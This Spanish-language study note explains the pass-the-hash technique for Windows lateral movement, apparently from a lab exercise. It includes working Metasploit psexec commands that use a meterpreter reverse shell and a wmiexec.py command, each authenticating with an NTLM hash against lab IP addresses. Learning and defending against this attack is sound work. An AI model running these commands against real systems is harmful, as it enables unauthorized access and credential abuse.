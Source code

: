 
Es una Técnica utilizada para ataques de movimiento lateral donde el atacante utiliza el hash de una contraseña (comúmente el NTLM) sin necesitar utilizar la contraseña en texto plano.

Técnica especialmente relevante para windows, donde el NTLM sigue siendo soportado por compatibilidad con sistemas más antiguos.

Este tipo de ataque nos permite hacernos pasar por usuarios, ganando acceso y realizando movimientos laterales. 

Pasos a realizar:

1. Objetener el Hash
	1. Ataques mediante dumps de credenciales, scraping de memoria o capturando tráfico.
	2. Herramientas como Mimikatz, Hashcat o metasploit pueden ser usadas para extraer NTLM hashes.
2. Usar NTLM hashes para autenticarse
	1. Una vez el atacante tiene un NTLM hash puede usarse para autenticarse en otro sistema.
3. Conectarse a sistemas remotos
	1. Utilizar el hash NTLM para conectarse a sistemas remotos utilizando protocolos comunes como SMB, WMI, RDP...

## Con Metaspoit

Nos dan la ip víctima -> 10.4.29.129

Y el NTML hash.

![[Pasted image 20250303093202.png]]

```bash
#Inicio del metasploit en modo quiet.
msfconsole -q

#Vamos a utilzar el módulo para SMB
search psexec
use exploit/windows/smb/psexec

set RHOST 10.4.29.129
set SMBUser administrator
#Poner el NTLMHAsh que nos dan
set SMBPass 0000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20
set payload /windows/x64/meterpreter/reverse_tcp

exploit
```


![[Pasted image 20250303093542.png]]


## Con WMIExec

WMI (Windows Management Instrumentation) es un framework de microsoft para manejar y monitorizar sistemas basados en windows.

Permite a los administradores realizar varias tareas como conseguir información, lanzar scripts y controlar operaciones del sistema. Utiliza el puerto 135 para establecer conexión.

Ejemplo de uso:

Tenemos la ip víctima -> 10.4.25.201

Y el NTLM hash 

```
wmiexec.py -hashes 00000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20 administrator@10.4.25.201
```

![[Pasted image 20250304091554.png]]



